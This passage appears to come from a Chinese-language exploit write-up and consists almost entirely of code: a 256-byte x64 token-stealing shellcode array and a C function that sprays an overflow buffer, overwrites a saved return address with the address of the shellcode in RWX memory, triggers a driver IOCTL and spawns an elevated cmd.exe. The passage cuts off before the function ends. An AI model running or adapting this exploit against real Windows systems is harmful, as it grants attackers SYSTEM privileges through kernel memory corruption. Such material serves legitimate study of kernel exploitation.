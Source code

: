 更换为

```plain
BYTE cmd[256] = {
    0x48, 0x31, 0xc0, 0x65, 0x48, 0x8b, 0x80, 0x88, 0x01, 0x00,
    0x00, 0x48, 0x8b, 0x80, 0xb8, 0x00, 0x00, 0x00, 0x49, 0x89,
    0xc1, 0x48, 0x8b, 0x80, 0x48, 0x04, 0x00, 0x00, 0x48, 0x8b,
    0x00, 0x48, 0x8b, 0x50, 0xf8, 0x49, 0x89, 0xc0, 0x48, 0x8b,
    0x00, 0x48, 0x83, 0xfa, 0x04, 0x75, 0xf0, 0x49, 0x8b, 0x50,
    0x70, 0x48, 0x83, 0xe2, 0xf8, 0x49, 0x8b, 0x89, 0xb8, 0x04,
    0x00, 0x00, 0x48, 0x83, 0xe1, 0x07, 0x48, 0x01, 0xca, 0x49,
    0x89, 0x91, 0xb8, 0x04, 0x00, 0x00, 0x65, 0x48, 0x8b, 0x04,
    0x25, 0x88, 0x01, 0x00, 0x00, 0x66, 0x8b, 0x88, 0xe4, 0x01,
    0x00, 0x00, 0x66, 0xff, 0xc1, 0x66, 0x89, 0x88, 0xe4, 0x01,
    0x00, 0x00, 0x48, 0x8b, 0x90, 0x90, 0x00, 0x00, 0x00, 0x48,
    0x8b, 0x8a, 0x68, 0x01, 0x00, 0x00, 0x4c, 0x8b, 0x9a, 0x78,
    0x01, 0x00, 0x00, 0x48, 0x8b, 0xa2, 0x80, 0x01, 0x00, 0x00,
    0x48, 0x8b, 0xaa, 0x58, 0x01, 0x00, 0x00, 0x31, 0xc0, 0x0f,
    0x01, 0xf8, 0x48, 0x0f, 0x07, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff
};
```

EXP

```plain
void StackOverflow(HANDLE hDevice, unsigned int ioctl) {
    char stackspace[0x1000] = { 0 };
    DWORD oldProtect;

    printf("[*] Start Exploit\n");
    LPVOID shellcode_addr = VirtualAlloc(NULL,
        sizeof(cmd),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);
    memcpy(shellcode_addr, cmd, sizeof(cmd));

    unsigned int size = 0x820;
    RtlFillMemory(stackspace, 0x810, 'A');
    *(unsigned long long*)(stackspace + 0x818) = (unsigned long long)shellcode_addr;

    DWORD info = 0;


    printf("shellcode space %p\n", shellcode_addr);
    printf("[*] Spawning a new cmd.exe process\n");

    system("pause");

    DeviceIoControl(hDevice, ioctl,
        stackspace, size,
        NULL, 0,
        &info, NULL);
    printf("info: %d\n", info);
    system("cmd.exe");
```